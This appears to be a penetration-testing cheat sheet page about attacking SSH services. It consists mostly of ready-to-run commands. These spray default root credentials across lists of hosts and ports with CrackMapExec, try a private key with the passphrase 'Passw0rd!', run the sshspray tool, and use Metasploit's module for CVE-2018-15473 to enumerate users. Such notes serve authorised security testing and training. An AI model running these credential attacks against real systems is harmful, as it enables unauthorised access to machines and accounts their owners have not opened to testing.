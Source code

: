 ```yaml
---
description: Secure Shell
---
```


# SSH




## Password Spray

- [https://github.com/mcorybillington/sshspray](https://github.com/mcorybillington/sshspray)

A list of targets with different SSH ports:

```
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $1}' > ssh_hosts
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $2}' > ssh_ports
$ paste ssh_hosts ssh_ports | while read host port; do cme ssh $host -u root -p root --port $port; done
```

Password spray with a private key and passphrase `Passw0rd!` using CME:

```
$ cme ssh 192.168.1.11 -u snovvcrash -p 'Passw0rd!' --key-file id_rsa
```

Using sshspray:

```
$ python3 sshspray.py -u snovvcrash -i ~/.ssh/id_rsa -t ssh.txt
```




## Enum Users

**CVE-2018-15473**

```
msf > use auxiliary/scanner/ssh/ssh_enumusers
msf > set CHECK_FALSE true
msf > set RHOSTS file:ssh.txt
msf > set THREADS 25
msf > set USERNAME root
msf > run
```
